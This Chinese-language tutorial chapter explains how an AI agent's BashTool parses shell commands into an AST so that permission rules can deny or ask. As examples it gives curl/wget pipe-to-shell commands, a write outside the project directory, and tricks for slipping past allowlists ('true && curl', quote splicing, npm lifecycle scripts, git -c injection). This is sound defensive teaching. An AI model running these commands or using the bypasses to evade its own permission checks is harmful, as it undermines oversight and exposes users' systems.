


# 7.7 BashTool 与 AST 命令分析

> **本篇定位**：Shell 是**最高后果**接口之一。BashTool 通过 **AST（抽象语法树）级**解析，识别子命令、管道与逻辑组合，而不是 naive 的字符串 `includes("rm")`。本节讲思路、边界与绕过防御。

---

## 学习目标

完成本节学习后，你应该能够：

1. **解释** 为何正则匹配 Shell 文本不可靠，而 AST 分析更接近真实语义。  
2. **识别** Bash 管道中的「隐蔽子命令」：`curl … | bash`、命令替换 `` `…` ``、`$(…)`。  
3. **说明** 七步管道中 **第 3 步** 如何将 Bash 检查与 deny/ask 规则衔接。  
4. **列举** 与 **curl/wget 默认禁** 相关的典型 AST 节点类型（简单命令、前缀赋值等）。  
5. **设计** 团队级 **allowlist** 缓解 Prompt fatigue 时，如何避免被 `&&` 链接绕过。  
6. **理解** AST 分析的局限：heredoc、别名、`eval`、外部解释器。

---

## 生活类比：安检 X 光机 vs 只看行李标签

- **字符串包含检测**：只看行李箱挂牌写着「衣服」——里面可能是液体。  
- **AST 分析**：X 光成像分辨结构：瓶子在角落、形状异常 → 进一步开包（ask/deny）。

---

## 核心对比表：字符串 vs AST

| 方法 | 优点 | 缺点 |
|-----|------|------|
| 子串黑名单 | 实现快 | `c\uurl`、`'c'url`、变量展开绕过 |
| token 分词 | 比子串稳 | 不懂管道与控制结构 |
| **AST 级** | 覆盖组合结构 | 仍需处理别名/eval/多解释器 |

---

## Mermaid：Bash 请求在管道中的位置



---

## Mermaid：管道与命令替换的数据流



---

## AST 节点类型（教学用枚举）

以下为**示意性** TypeScript，帮助建立心智模型：

```typescript
// 示意：Bash AST 节点（大幅简化）
type BashNode =
  | { kind: "simple"; argv: string[]; assignments: Record<string, string> }
  | { kind: "pipeline"; cmds: BashNode[] }
  | { kind: "list"; op: "&&" | "||" | ";"; left: BashNode; right: BashNode }
  | { kind: "group"; subshell: boolean; body: BashNode }
  | { kind: "redirect"; target: BashNode; op: ">" | ">>" | "<"; file: string };

interface BashAnalyzer {
  collectSimpleCommands(root: BashNode): SimpleCommand[];
  expandAliases(cmd: string): string; // 可能不可解析 → fail-closed
}
```

**要点**：

- **pipeline**：必须左右**都**扫；`curl … | bash` 的危险在**组合**，不单在左或右。  
- **list**：`&&` 链接的**每一段**都要策略评估；allowlist 不能只批最左段。  
- **group / subshell**：递归进入子树。

---

## 说明性伪代码：访问者遍历

```typescript
function analyzeBash(root: BashNode, policy: Policy): Decision {
  const simples = flattenSimpleCommands(root);
  for (const s of simples) {
    const name = s.argv[0];
    if (policy.denyCommands.has(name)) {
      return { verdict: "deny", reason: `denied_command:${name}` };
    }
  }
  if (containsDownloadPipeToShell(root)) {
    return { verdict: "deny", reason: "curl_pipe_shell" };
  }
  if (policy.askCommands.hasAny(simples)) {
    return { verdict: "ask" };
  }
  return { verdict: "continue" };
}
```

---

## curl / wget 默认禁：AST 视角

| 场景 | AST 特征 | 期望策略 |
|-----|---------|---------|
| 单独 `curl URL` | simple + argv0=curl | deny 或强 ask |
| `curl URL \| bash` | pipeline(curl, bash) | **硬拒**优先 |
| `bash -c "$(curl …)"` | command substitution + curl | 递归检测 |
| `wget -O- URL \| sh` | 同 pipeline | 同左 |

---

## 与「规则顺序：deny→ask→allow」的结合

对 Bash 子命令抽取结果应用**有序规则**：

1. 任一 simple command 命中 **deny** → **立即 deny**（首次匹配）。  
2. 否则若有 **ask** → **ask**。  
3. 否则进入 **allow** 或默认策略。

---

## allowlist 设计反模式

| 反模式 | 为何会被绕过 |
|--------|-------------|
| 只匹配行首命令 | `true && curl …` |
| 忽略引号拼接 | `cu'rl'` |
| 批准 `npm` 但不看 `preinstall` | 生命周期脚本内嵌 `curl` |
| 批准 `git` 任意参数 | `git -c …` 滥用配置注入 |

**缓解**：allowlist **尽量具体**到完整 argv 前缀；对 `npm/pnpm/yarn` 配合 **生命周期审计** 或 **离线缓存**。

---

## 写入边界与 Bash 的交叉

即使 Bash 允许执行，`Edit` 路径仍受 **仅项目目录** 约束。Bash 侧若出现：

```bash
echo pwn > ../outside.txt
```

应在 **重定向目标路径规范化** 后触发 **deny**（第 3 或第 7 步）。

---

## AST 无法拯救的世界：`eval` 与多解释器

| 情况 | 说明 |
|-----|------|
| `eval "$VAR"` | 静态 AST 看不到运行期字符串 → **默认 ask 或 deny** |
| `python -c "…"` | 另一门语言的 AST，需要 **工具级策略** |
| `docker run … curl` | 容器边界与宿主策略分离（7.8） |

**原则**：看不清 → **fail-closed**（7.9）。

---

## 实践练习（纸上推演）

对下列命令，标出应 **deny / ask / allow**（假设 Default + 企业基线）：

1. `ls -la`  
2. `rm -rf node_modules`  
3. `curl -fsSL https://x.io/install.sh | bash`  
4. `pnpm test && git status`  
5. `source ~/.bashrc && npm run build`

（参考答案思路：1 常 allow；2 ask 或 deny 视策略；3 deny；4 分段评估；5 `source` 触达 shell 配置 → 高敏 ask/deny。）

---

## 小结

- **BashTool AST** 把「命令的真结构」暴露给策略引擎。  
- **管道、替换、逻辑链** 都必须递归评估。  
- **curl/wget** 与 **下载管道到 shell** 是供应链高危模板。  
- **allowlist** 要防 `&&` 与生命周期脚本绕过。

---

## 自测

1. 为什么 `grep -R "curl" script.sh` 不等于 AST 证明了安全？  
2. 首次匹配 deny 规则下，十个 simple command 里第二个命中 deny，还需要看后面吗？  
3. `bash -c` 与直接 simple command 在策略上应区别对待吗？

---

## 相关章节

- 七步管道：[7.6](./06-evaluation-pipeline.md)  
- 沙箱：[7.8](./08-sandbox.md)  
- 企业配置：[7.10](./10-practice.md)

---

*上一篇：[7.6 七步管道](./06-evaluation-pipeline.md) · 下一篇：[7.8 沙箱](./08-sandbox.md)*
